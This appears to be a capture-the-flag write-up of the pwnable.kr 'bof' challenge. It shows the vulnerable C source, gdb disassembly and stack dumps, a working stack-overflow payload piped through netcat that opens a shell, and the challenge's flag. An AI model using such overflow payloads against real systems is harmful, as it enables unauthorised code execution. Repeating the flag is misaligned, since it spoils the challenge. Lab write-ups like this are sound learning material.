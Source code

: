 # bof

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?


ssh bof@pwnable.kr -p2222 (pw: guest)

- let's check the contents of the directory
```bash
bof@ubuntu:~$ ls -ls
total 24
16 -rwxr-xr-x 1 root bof  15300 Mar 26  2025 bof
 4 -rw-r--r-- 1 root root   342 Mar 26  2025 bof.c
 4 -rw-r--r-- 1 root root    86 Apr  3 16:03 readme
```
```bash
bof@ubuntu:~$ cat readme
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
bof@ubuntu:~$ cat bof.c
```
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                setregid(getegid(), getegid());
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
- when i follow the instructions on the readme:
```bash
bof@ubuntu:~$ nc 0 9000
hdsjfksd
overflow me : Nah..
```
- seems that I need to overflow the buffer somehow and make the input to func 0xcafebebe instead of 0xdeadbeef
- how buffer over flow works:
    - lets take this function for example:
    ```c
    void func(const char* input){
        char buf[8];
        int n = 0x11111111;
        strcpy(buf, input);
    }
    ```
    - if we were to input 'AAAAAAAAAAAA', since buf can only hold 8 bytes, it would store the first 8. But what happens to last 4?
    - after running the program with the input we find that suddenly, n=0x41414141
    - 0x41 in ascii == 'A', so that's what happens to the last 4 'A's
    - i copied the bof executable into my local computer since bof runs over nc
    - when I run 'gdb bof' I disassemble both main and func to see how it runs and look for possible breakpoints
    ```bash
        gef➤  disass main
        Dump of assembler code for function main:
        0x0000068a <+0>:     push   ebp
        0x0000068b <+1>:     mov    ebp,esp
        0x0000068d <+3>:     and    esp,0xfffffff0
        0x00000690 <+6>:     sub    esp,0x10
        0x00000693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
        0x0000069a <+16>:    call   0x62c <func>
        0x0000069f <+21>:    mov    eax,0x0
        0x000006a4 <+26>:    leave
        0x000006a5 <+27>:    ret
        End of assembler dump.
        gef➤  disass func
        Dump of assembler code for function func:
        0x0000062c <+0>:     push   ebp
        0x0000062d <+1>:     mov    ebp,esp
        0x0000062f <+3>:     sub    esp,0x48
        0x00000632 <+6>:     mov    eax,gs:0x14
        0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
        0x0000063b <+15>:    xor    eax,eax
        0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
        0x00000644 <+24>:    call   0x645 <func+25>
        0x00000649 <+29>:    lea    eax,[ebp-0x2c]
        0x0000064c <+32>:    mov    DWORD PTR [esp],eax
        0x0000064f <+35>:    call   0x650 <func+36>
        0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
        0x0000065b <+47>:    jne    0x66b <func+63>
        0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
        0x00000664 <+56>:    call   0x665 <func+57>
        0x00000669 <+61>:    jmp    0x677 <func+75>
        0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
        0x00000672 <+70>:    call   0x673 <func+71>
        0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
        0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
        0x00000681 <+85>:    je     0x688 <func+92>
        0x00000683 <+87>:    call   0x684 <func+88>
        0x00000688 <+92>:    leave
        0x00000689 <+93>:    ret
        End of assembler dump.
        gef➤  

    ```
    - what stands out to me is the line in func:
    ```bash
    0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
    ```
    - as it corresponds to the line in C:
    ```c
    if(key == 0xcafebabe)
    ```
    - also noting that it is the line right after:
    ```c
    gets(overflowme);       // smash me!
    ```
    - this gives me the idea that we can overflow the buffer to change the variable key from 0xdeadbeef to 0xcafebabe
    - lets put a breakpoint in func+40 where the cmp instruction is used
    - when we break at that line, we will check the address at ebp+0*8
    - for now, when the program prompts us for input, we will type a few "A"s
    ```bash
        gef➤  x/50wx $ebp+0*8
        0xffffcee8:     0xffffcf08      0x5655569f      0xdeadbeef      0x00000000
        0xffffcef8:     0x00000000      0x00000000      0x00000000      0x00000000
        0xffffcf08:     0x00000000      0xf7d8ecc3      0x00000001      0xffffcfc4
        0xffffcf18:     0xffffcfcc      0xffffcf30      0xf7f9ce14      0x5655568a
        0xffffcf28:     0x00000001      0xffffcfc4      0xf7f9ce14      0x565556b0
        0xffffcf38:     0xf7ffcb60      0x00000000      0xb33f7722      0xfd785132
        0xffffcf48:     0x00000000      0x00000000      0x00000000      0xf7ffcb60
        0xffffcf58:     0x00000000      0x79e58300      0xf7ffda60      0xf7d8ec56
        0xffffcf68:     0xf7f9ce14      0xf7d8ed88      0xf7fc7ac4      0x56556ff4
        0xffffcf78:     0x00000001      0x56555530      0x00000000      0xf7fd8390
        0xffffcf88:     0xf7d8ed09      0x56556ff4      0x00000001      0x56555530
        0xffffcf98:     0x00000000      0x56555561      0x5655568a      0x00000001
        0xffffcfa8:     0xffffcfc4      0x565556b0
        gef➤ 
    ```
    - we found 0xdeadbeef, but where are our "A"s?
    ```bash
        gef➤  x/24wx $esp
        0xffffcea0:     0xffffcebc      0xffffd18b      0x00000002      0xffffced8
        0xffffceb0:     0xf7ffcfec      0x00000000      0x00000014      0x41414141
        0xffffcec0:     0x41414141      0x41414141      0x41414141      0x00000041
        0xffffced0:     0x00000000      0x00000000      0xffffffff      0x79e58300
        0xffffcee0:     0xf7fbf400      0x00000000      0xffffcf08      0x5655569f
        0xffffcef0:     0xdeadbeef      0x00000000      0x00000000      0x00000000
        gef➤  
    ```
    - there they are, the 0x41414141's
    - each block is 4 bytes and there are 13 blocks from the start of the "A"s to deadbeef
    - there are 4*13 = 52 bytes before we reach where deadbeef is located on the stack
    - this means that our payload needs to be "A"*52 + '0xcafebabe'
        - remember x86 architecture is little endian
        - so "A"*52 + '0xbebafeca'
    - earlier the readme said that the binary was running at nc 0 9000
        - lets use echo to print out our input to the commandline thru netcat
    ```bash
    (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" && cat) | nc 0 9000
    ```
    - we add the && cat so the program doesn't hang
    ```bash
        bof@ubuntu:~$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" && cat) | nc 0 9000  
        ls -ls
        total 5352
        16 -rwxr-xr-x 1 root root      15300 Apr  3 15:55 bof
        4 -rw-r--r-- 1 root root        372 Apr  3 15:54 bof.c
        4 -r--r----- 1 root bof_pwn      29 Apr  3 15:46 flag
        5324 -rw-r--r-- 1 root root    5445200 Oct  1 07:26 log
        4 -rwx------ 1 root root        768 Apr  3 16:06 super.pl
        cat flag
        Daddy_I_just_pwned_a_buff3r!
    ```